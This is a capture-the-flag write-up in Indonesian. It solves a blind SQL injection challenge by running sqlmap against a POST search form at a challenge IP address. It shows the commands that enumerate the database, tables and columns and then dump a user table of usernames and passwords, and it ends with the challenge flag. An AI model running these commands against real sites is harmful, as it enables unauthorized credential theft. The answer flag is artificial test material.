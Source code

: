 # Are you blind yes maybe

diberikan sebuah web berisi sebuah inputan <br>
diketahui bahwa terdapat celah sqli injection pada form tersebut dengan method POST <br>
dicoba dengan melakukan blind Sql Injection menggunakan sqlmap 

'''  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST --dbs ''' <br>

didapat sebuah database bernama sql, kita coba temukan tabelnya<br>
'''  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --tables -D \`sql\` ''' <br>

didapat sebuah tabel 'user', coba cek kolom terlebih dahulu.<br>
'''  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --columns -D \`sql\` -T user''' <br>


didapat kolom yang mencurigakan berisi username dan pasword, langsung saja lakukan dump <br>
``` sqlmap -u http://202.43.92.132:40001/index.php --data="search=s&form=submit" --method POST --dump -D \`sql\` -T user ```<br>

<img src="sqlmap.jpg"><br>

**ASGama{L00k1ng_f0R_s0m3_fl4g?}**